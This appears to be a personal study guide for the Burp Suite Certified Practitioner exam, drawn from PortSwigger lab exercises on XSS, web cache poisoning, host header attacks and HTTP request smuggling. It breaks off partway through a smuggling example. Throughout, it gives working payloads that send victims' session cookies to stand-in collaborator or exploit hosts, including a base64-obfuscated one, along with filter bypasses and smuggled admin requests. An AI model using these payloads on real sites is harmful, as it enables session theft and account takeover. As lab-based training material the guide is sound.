

# Burp Suite Certified Practitioner Exam Study  

>This is my study notes on the PortSwigger Academy [Burp Suite Certified Practitioner](https://portswigger.net/web-security/certification) (BSCP) Exam topics. Go to [PortSwigger Academy](https://portswigger.net/web-security/all-materials) learning and research materials to get original detail. PortSwigger shared this [Retaking your exam](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam?tid=SNL7Q8oXE1mjUW1rSgswXSPIjhdLL5210Y-ogEuD1GZVp1w5spKfl5OJjAtj8AAC) advice. 
  
**[FOOTHOLD](#foothold)**  
[Content Discovery](#content-discovery)  
[Dom-XSS](#dom-based-xss)  
[Cross Site Scripting](#cross-site-scripting)  
[Web Cache Poison](#web-cache-poison)  
[Host Headers](#host-headers)  
[HTTP Request Smuggling](#http-request-smuggling)  
[Brute force](#brute-force)  
[Authentication](#authentication)  
  
**[PRIVILEGE ESCALATION](#privilege-escalation)**  
[CSRF Account Takeover](#csrf-account-takeover)  
[Password Reset](#password-reset)  
[SQL Injection](#sql-injection)  
[JSON Web Tokens](#jwt)  
[Prototype pollution](#prototype-pollution)  
[Access Control](#access-control)  
[Cross-origin resource sharing](#cors)  
  
**[DATA EXFILTRATION](#data-exfiltration)**  
[XML entities & Injections](#xxe-injections)  
[SSRF Server side request forgery](#ssrf---server-side-request-forgery)  
[SSTI Server side template injection](#ssti---server-side-template-injection)  
[File path traversal](#file-path-traversal)  
[File Uploads](#file-uploads)  
[Deserialization](#deserialization)  
[OS Command Injection](#os-command-injection)  
  
**[APPENDIX](#appendix)**  
[Python Scripts](#python-scripts)  
[Payloads](payloads/README.md)  
[Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)  
[Focus target scanning](#focus-scanning)  
[Approach](#approach)  
[Youtube Study Playlist](#youtube-training-playlist)  

[Footnote](#footnote)  
  
# Foothold  
  
# Content Discovery  

>Enumeration of target start with fuzzing web directories and files. Either use the Burp engagement tools, content discovery option to find hidden paths and files or use ```FFUF``` to enumerate web directories and files. Evening looking at ```robots.txt``` or ```sitemap.xml``` can reveal content.  

```bash
wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt

ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ
```  

>Burp engagement tool, content discovery using my compiled wordlist [burp-labs-wordlist](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/wordlists/burp-labs-wordlist.txt) as custom file list.  

  

>Examine the git repo branches on local downloaded copy, using ```git-cola``` tool. Then select **Undo last commit** and extract admin password from the diff window.  

```
wget -r https://TARGET.web-security-academy.net/.git/

git-cola --repo 0ad900ad039b4591c0a4f91b00a600e7.web-security-academy.net/
```  

  

[PortSwigger Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)  
  
## DOM-Based XSS  

[Vulnerable AngularJS](#vuln-angularjs)  
[Document Write Location search](#doc-write-location-search)  
[Dom Invader](#dom-invader)  
[DOM XSS JSON.parse web messages](#dom-xss-jsonparse-web-messages)  
[DOM XSS AddEventListener JavaScript URL](#dom-xss-addeventlistener-javascript-url)  
[DOM XSS AddEventListener Ads Message](#dom-xss-addeventlistener-ads-message)  
[Reflected DOM Cookie Stealer](#dom-cookie-stealer)  

>DOM-based XSS vulnerabilities arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes code to a sink that supports dynamic code execution. Review the code to ***identify*** the **sources** and **sinks** that may lead to exploit, list of examples:  

* document.write
* window.location
* document.cookie
* eval()
* document.domain
* WebSocket
* element.src
* postmessage
* setRequestHeader
* JSON.parse
* ng-app
* URLSearchParams
* replace()
* innerHTML
* location.search
* addEventListener  
  
### Vuln AngularJS  
  
>AngularJS expression below can be injected into the search function when angle brackets and double quotes HTML-encoded. The vulnerability is ***identified*** by noticing the search string is enclosed in an **ng-app** directive and ```/js/angular 1-7-7.js``` script. Review the HTML code to ***identify*** the ```ng-app``` directive telling AngularJS that this is the root element of the AngularJS application.  

  

>PortSwigger lab payload below:

```JavaScript
{{$on.constructor('alert(1)')()}}
```  

>Cookie stealer payload that can be placed in iframe, hosted on an exploit server, resulting in the victim session cookie being send to Burp Collaborator.  

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  

>**Note:** The session cookie property must not have the **HttpOnly** secure flag set in order for XSS to succeed.  

  

[PortSwigger Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)  

[z3nsh3ll give an amazingly detail understanding on the constructor vulnerability in this lab on YouTube](https://youtu.be/QpQp2JLn6JA)  

### Doc Write Location search  

>Below the target is vulnerable to DOM-XSS in the stock check function. Document.write is the sink used with location.search allowing us to add new value to the JavaScript variable named **storeId**.  

```html
/product?productId=1&storeId="></select>
```  

  

>Dom-based XSS request with inserted malicious code into the variable read by the target JavaScript.  

  

[PortSwigger Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)  

### Dom Invader  

>Using Dom Invader plug-in and set the canary to value, such as ```domxss``` and detect DOM-XSS sinks that can be exploit.  

  

### DOM XSS JSON.parse web messages    

>Target use web messaging and parses the message as JSON. Exploiting the vulnerability by constructing an HTML page on the exploit server that exploits DOM XSS vulnerability and steal victim cookie.  


>The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a **string** that is parsed using **JSON.parse()**. In the JavaScript below, we can see that the event listener expects a **type** property and that the **load-channel** case of the **switch** statement changes the **img src** attribute.  

>***Identify*** web messages on target that is using **postmessage()** with **DOM Invader**.  

```JavaScript
<script>
	window.addEventListener('message', function(e) {
		var img = document.createElement('img'), ACMEplayer = {element: img}, d;
		document.body.appendChild(img);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
				break;
			case "redirect":
				window.location.replace(d.redirectUrl);
				break;
		}
	}, false);
</script>
```  

>To exploit the above code, inject JavaScript into the **JSON** data to change "load-channel" field data and steal document cookie.  
  
>Host an **iframe** on the exploit server html body, and send it to the victim, resulting in the stealing of their cookie. The victim cookie is send to the Burp collaboration server.  

```html
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>

```  

>At the end of the iframe onload values is a "*", this is to indicate the target is any.  


[PortSwigger Lab: DOM XSS using web messages and JSON.parse](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)  

  

>Replay the post message using DOM Invader after altering the JSON data.  

```JSON
{
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}
```  

  
  
[PortSwigger: Identify DOM XSS using PortSwigger DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/web-messages)  

### DOM XSS AddEventListener JavaScript URL  

>Reviewing the page source code we ***identify*** the ```addeventlistener``` call for a web message but there is if condition checking if strings contains ```http/s```.

  

>The exploit server hosted payload below includes the ```https``` string, and is successful in bypassing the if condition check.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://Collaborator.com?c=`+document.cookie','*')">
```  

  
  
[PortSwigger Lab: DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)  
  
### DOM XSS AddEventListener Ads Message  

>In the source code we ***identify*** the call using ```addEventListener``` and element id ```ads``` reference.  

  

>The ```fetch``` function enclose the collaborator target inside back ticks, and when the iframe loads on the victim browser, the postMessage() method sends a web message to their home page.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('','*')">
```  

>Replacing the Burp Lab payload ```print()``` with ```fetch()``` to steal the victim session cookie.  

  

[PortSwigger Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)  

### DOM Cookie Stealer  

>In the **Search** function a Reflected XSS vulnerability is ***identified*** using ```\"-alert(1)}//``` payload. The attacker then deliver an exploit phishing link to the victim with a cookie stealing payload inside a hosted **iframe** on their exploit server.  

>***Identify*** The search JavaScript code on the target, return a JSON response. Validate that the backslash **\\** escape is not sanitized, and the JSON data is then send to **eval()**.  Backslash is not escaped correct and when the JSON response attempts to escape the opening double-quotes character, it adds a **second** backslash. The resulting double-backslash causes the escaping to be effectively cancelled out.  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

>Image show the request using search function to send the document.cookie value in base64 to collaboration server.  

  

[PortSwigger Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)  
  
## Cross Site Scripting  

[XSS Resources](#xss-resources)  
[Identify allowed Tags](#identify-allowed-tags)  
[Bypass Blocked Tags](#bypass-blocked-tags)  
[XSS Assign protocol](#xss-assign-protocol)  
[Custom Tags not Blocked](#custom-tags-not-blocked)  
[XSS Tags & Events](#xss-tags--events)  
[OnHashChange](#onhashchange)  
[Reflected String XSS](#reflected-string-xss)  
[Reflected String Extra Escape](#reflected-string-extra-escape)  
[XSS Template Literal](#xss-template-literal)  
[XSS WAF Bypass](#xss-waf-bypass)  
[Stored XSS](#stored-xss)  
[XSS in SVG Upload](#xss-svg-upload)  
  
### XSS Resources  

>XSS Resources pages to lookup payloads for **tags** and **events**.   

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)  

>CSP Evaluator tool to check if content security policy is in place to mitigate XSS attacks.

+ [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  
  
>When input field maximum length is at least 23 character in length then use this resource for **Tiny XSS Payloads**.  

+ [Tiny XSS Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)  

>Set a unsecured test cookie in browser using browser DEV tools console to use during tests for POC XSS cookie stealer payload on myself.  

```JavaScript
document.cookie = "TopSecret=UnsecureCookieValue4Peanut2019";
```  
  
### Identify allowed Tags  

>Basic XSS Payloads to ***identify*** application controls for handling data received in HTTP request.   

```html

```  

```html
"><svg><animatetransform onbegin=alert(1)>
```  

>Submitting the above payloads may give response message, ***"Tag is not allowed"***. Then ***identify*** allowed tags using [methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).  

>The below lab gives great **Methodology** to ***identify*** allowed HTML tags and events for crafting POC XSS.  

>Host **iframe** code on exploit server and deliver exploit link to victim.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```  

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  
    
### Bypass Blocked Tags   
  
>Application controls give message, ***"Tag is not allowed"*** when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](#identify-allowed-tags). This payload steal my own session cookie as POC.  

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2Fcollaboration.net%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```  

>Place the above payload on exploit server and insert URL with search value into an ```iframe``` before delivering to victim in below code block.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.com%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```  
  
  
  
[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)  
  
### XSS Assign protocol  

>Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** ```javascript``` exploit ***identified*** by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the ```%0a``` representing the ASCII newline character.  

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://COLLABORATOR.NET/?p='+document.cookie//&context=html
```  

  

[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  
  
### Custom Tags not Blocked  
  
>Another application also respond with message ***"Tag is not allowed"*** when attempting to insert XSS script, but if we create custom tag it is bypassed.  

```
<xss+id=x>#x';
```  

***Identify*** if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.  

```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://Collaborator.COM/?c='+document.cookie tabindex=1>#x';
</script>
```
   
>**Note:** The custom tag with the ID ```x```, which contains an **onfocus** event handler that triggers the ```document.location``` function. The **HASH** character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in ```script``` tags, and send to victim. Below is the same payload but **URL-encoded** format.  

```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```  

  
  
[PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)  
  
### XSS Tags & Events  

>This section give guide to ***identify*** reflected XSS in a **search** function on a target and how to determine the HTML tags and events attributes not blocked.  
  
>The tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.  

```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```  

>Again the **Body** and event **onpopstate** is not blocked.  
  
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```  

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

>Below JavaScript is hosted on exploit server and then deliver to victim. It is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.  

```JavaScript
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>"></iframe>
```  

### OnHashChange  

>Below iframe uses **hash** ``` # ``` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.  
  
```JavaScript
<iframe src="https://TARGET.net/#" onload="document.location='http://COLLABORATOR.com/?cookies='+document.cookie"></iframe>
```  

>Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.  

>PortSwigger Lab payload perform print.  

```JavaScript
<iframe src="https://TARGET.net/#" onload="this.src+=''"></iframe>
```  

>Note: ***Identify*** the vulnerable jquery 1.8.2 version used in the lab with the CSS selector to ***identify*** **hashchange**.  

  

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)  


[Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom_xss_jquery_hashchange/writeup.md)  

### Reflected String XSS  

>Submitting a search string and reviewing the source code of the search result page, the JavaScript string variable is ***identified*** to reflect the search string in the code variable named ```searchTerms```.  

  

>Using a payload ```test'payload``` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.  

```JavaScript
</script><script>alert(1)</script>
```  

>Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator. This can be placed on an exploit server within an **iframe**.  

```html
</script><script>document.location="https://Collaborator.net/?cookie="+document.cookie</script>
```  

  

[PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)  
  
### Reflected String Extra Escape  

>See in source code the variable named ```searchTerms```, and when submitting payload ```fuzzer'payload```, see the single quote is backslash escaped, and then send a  ```fuzzer\payload``` payload and ***identify*** that the backslash is not escaped.  

```
\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

>Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the ```document.location``` path, allow for the cookie stealer to bypass application protection.  

```
\';document.location=`https://COLLABORATOR.com/?BackTicks=`+document.cookie;//
```  

>With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube time index = [TJCHacking XSS string escape](https://youtu.be/Aqfl2Rj0qlU?t=598)  
  
  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)  
  
### XSS Template Literal  

>JavaScript template literal is ***identified*** by the back ticks **`** used to contain the string. On the target code we ***identify*** the search string is reflected inside a template literal string.  

```
${alert(document.cookie)}
```  

  
  
[PortSwigger Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)  

### XSS WAF Bypass  

>WAF is preventing dangerous search filters and tags, then bypass XSS filters using JavaScript global variables.  

```JavaScript
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```  

[secjuice: Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/)  
  
```JavaScript
fetch("https://COLLABORATOR.NET/?c=" + btoa(document['cookie']))
```
>Base64 encode the payload.  

```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```  

>Test payload on our own session in Search.  

```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 format strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  
>The image below shows Burp Collaborator receiving the victim cookie as a base64 result.  

  

>Hosting the **IFRAME** with eval() and fetch() payload on exploit server, respectively base64 encoded and URL encoded.  

```html
<iframe src="https://TARGET.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```
  

>Decode above payload from URL encoding, is the following:  

```html
https://TARGET.net/?SearchTerm="+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//  
```  

>Decode part of payload above that is base64 encoded to the following:  

```html
https://TARGET.net/?SearchTerm="+eval(atob("fetch("https://COLLABORATOR.NET/?c=" + btoa(document['cookie']))"))}//  
```  
  
#### URL & Base64 encoders and decoders  

[URL Decode and Encode](https://www.urldecoder.org/)  
[BASE64 Decode and Encode](https://www.base64encode.org/)    
  
### Stored XSS

>Use following sample code to ***identify*** stored XSS, if stored input is redirecting victim that click or following the links to our exploit server.  

```HTML

<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```  
  
>Below is log of requests to exploit log server showing which of the above tags worked.  

  

>Cross site Scripting saved in Blog post comment. This Cookie Stealer payload then send the victim session cookie to the exploit server logs.  

```html

```  

>Product and Store lookup  

```html
?productId=1&storeId="></select>
```  

>Stored XSS Blog post  

```JavaScript
<script>
document.write('');
</script>
```  

>Below target has a stored XSS vulnerability in the blog comments function. Ex-filtrate a victim user session cookie that views comments after they are posted, and then use their cookie to do impersonation.  

  

>**Fetch API** JavaScript Cookie Stealer payload in Blog post comment.  

```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```  

[PortSwigger Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)  
  
## Web Cache Poison  

[Unkeyed header](#unkeyed-header)  
[Utm_content](#utm_content)  
[Poison ambiguous request](#poison-ambiguous-request)  
[Cache Poison multiple headers](#cache-poison-multiple-headers)  

### Unkeyed header  

>Target use **tracking.js** JavaScript, and is vulnerable to **```X-Forwarded-Host```** or **```X-Host```** header redirecting path, allowing the stealing of cookie by poisoning cache.
>***Identify*** the web cache headers in response and the tracking.js script in the page source code. Exploit the vulnerability by hosting JavaScript and injecting the header to poison the cache of the target to redirect a victim visiting.  

  
  
```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
```  

  

>Hosting on the exploit server, injecting the **```X-Forwarded-Host```** header in request, and poison the cache until victim hits poison cache.  

```
/resources/js/tracking.js
```  
  
  
  
>Body send session cookie to collaboration service.  
  
```javascript
document.location='https://collaboration.net/?cookies='+document.cookie;
```  

>Keep **Poisoning** the web cache of target by resending request with ```X-Forwarded-Host``` header.  

  

[PortSwigger Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)  

>Youtube video showing above lab payload on exploit server modified to steal victim cookie when victim hits a cached entry on back-end server. The payload is the above JavaScript.  

[YouTube: Web cache poisoning with unkeyed header - cookie stealer](https://youtu.be/eNmF8fq-ur8)  
  
[Param Miner Extension to identify web cache vulnerabilities](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943)  
  
### utm_content  

>Target is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. Param Miner's "Guess GET parameters" feature will ***identify*** the parameter as utm_content.  

  
  
```
GET /?utm_content='/><script>document.location="https://Collaborator.com?c="+document.cookie</script>
```  

>Above payload is cached and the victim visiting target cookie send to Burp collaborator.  

  

[PortSwigger Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)  

### Poison ambiguous request  

>Adding a second **Host** header with an exploit server, this ***identify*** a ambiguous cache vulnerability and routing your request. Notice that the exploit server in second **Host** header is reflected in an absolute URL used to import a script from ```/resources/js/tracking.js```. 

```html
Host: TARGET.net
Host: exploit.net
```

>On the exploit server set a file as same path target calls to ```/resources/js/tracking.js```, this will contain the payload. Place the JavaScript payload code below to perform a cookie stealer.  

```
document.location='https://Collaborator.com/?CacheCookies='+document.cookie;
```  

  

[PortSwigger Lab: Web cache poisoning via ambiguous requests](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)  

### Cache Poison multiple headers  

>Identify that cache hit headers in responses, then test if the target support ```X-Forwarded-Host``` or ```X-Forwarded-Scheme``` headers. These headers can allow for the stealing of victim session cookie.  
  
>Identify if adding the two **Forwarded** headers to the GET ```/resources/js/tracking.js``` request, result in a change to the location response header. This ***identify*** positive poisoning of the cache with multiple headers.  

```html
GET /resources/js/tracking.js?cb=123 HTTP/2
Host: TARGET.net
X-Forwarded-Host: EXPLOIT.net
X-Forwarded-Scheme: nothttps
```  

  

>On the exploit server change the file path to ```/resources/js/tracking.js``` and the update the poison request ```X-Forwarded-Host: EXPLOIT.net``` header. Place the payload on exploit server body.  

```html
document.location='https://Collaborator.com/?poisoncache='+document.cookie;
```  

>Remove the ```cb=123``` cache **buster**, and then poison the cache until the victim is redirected to the exploit server payload tracking.js to steal session cookie.  

[PortSwigger Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)  

## Host Headers  

[Spoof IP Address](#spoof-ip-address)  
[HOST Connection State](#host-connection-state)  
[Host Routing based SSRF](#host-routing-based-ssrf)  
[SSRF via flawed Host request parsing](#absolute-get-url--host-ssrf)  

### Spoof IP Address  

>***Identify*** that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.  
  
>Include the below ```X- ``` headers and change the username parameter on the password reset request to ```Carlos``` before sending the request.  
>In the exam if you used this exploit then it means you have no used vulnerability that require user interaction and may be used to gain access to stage 3 as admin.  

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```  

>Check the exploit server log to obtain the reset link to the victim username.  
  
  

[PortSwigger Lab: Password reset poisoning via middle-ware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)  

### HOST Connection State  

>Target is vulnerable to **routing-based SSRF** via the Host header, but validate connection state of the first request. Sending grouped request in sequence using **single connection** and setting the connection header to **keep-alive**, bypass host header validation and enable SSRF exploit of local server.  

```html
GET / HTTP/1.1
Host: TARGET.net
Cookie: session=ValueOfSessionCookie
Content-Length: 48
Content-Type: text/plain;charset=UTF-8
Connection: keep-alive
```  

>Next request is the second tab in group sequence of requests.  

```html
POST /admin/delete HTTP/1.1
Host: localhost
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=TheCSRFTokenValue&username=carlos
```  

>Observe that the second request has successfully accessed the admin panel.  

  

[PortSwigger Lab: Host validation bypass via connection state attack](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)  

## HTTP Request Smuggling  

>Architecture with front-end and back-end server, and front-end or back-end does not support chunked encoding **(HEX)** or content-length **(Decimal)**. Bypass security controls to retrieve the victim's request and use the victim user's cookies to access their account.  
  
[TE.CL multiCase - Transfer-Encoding](#tecl-multicase---transfer-encoding)  
[CL.TE multiCase - Content-Length](#clte-multicase---content-length)  
[CL.TE multiCase - User-Agent Cookie Stealer](#clte-multicase---user-agent-cookie-stealer)  
[TE.CL dualchunk - Transfer-encoding obfuscated](#tecl-dualchunk---transfer-encoding-obfuscated)  
[HTTP/2 smuggling via CRLF injection](#http2-smuggling-via-crlf-injection)  
[HTTP/2 TE desync v10a h2path](#http2-te-desync-v10a-h2path)  
  
### TE.CL multiCase - Transfer-Encoding
  
>Manually fixing the length fields in request smuggling attacks, requires each chunk size in bytes expressed in **HEXADECIMAL**, and **Content-Length** specifies the length of the message body in **bytes**. Chunks are followed by a **newline**, then followed by the chunk contents. The message is terminated with a chunk of size ZERO.  

  

>**Note:** In certain smuggle vulnerabilities, go to Repeater menu and ensure the **"Update Content-Length"** option is unchecked.  

```
POST / HTTP/1.1
Host: TARGET.net
Content-length: 4
Transfer-Encoding: chunked

71
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0  
  
```  

>**Note:** include the trailing sequence \r\n\r\n following the final 0.  

>Calculating TE.CL (Transfer-Encoding / Content-Length) smuggle request length in **HEXADECIMAL** and the payload is between the hex length of **71** and the terminating **ZERO**, not including the ZERO AND not the preceding ```\r\n``` on line above ZERO, as part of length. The initial POST request **content-length** is manually set.  
  
[TJCHacking - Request Smuggling Calculator](https://github.com/tjcim/request_smuggling_calculator)  
  
[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)  


### CL.TE multiCase - Content-Length

>Large Content-Length to capture victim requests. Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to **798**, then smuggle POST request to the back-end server.

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
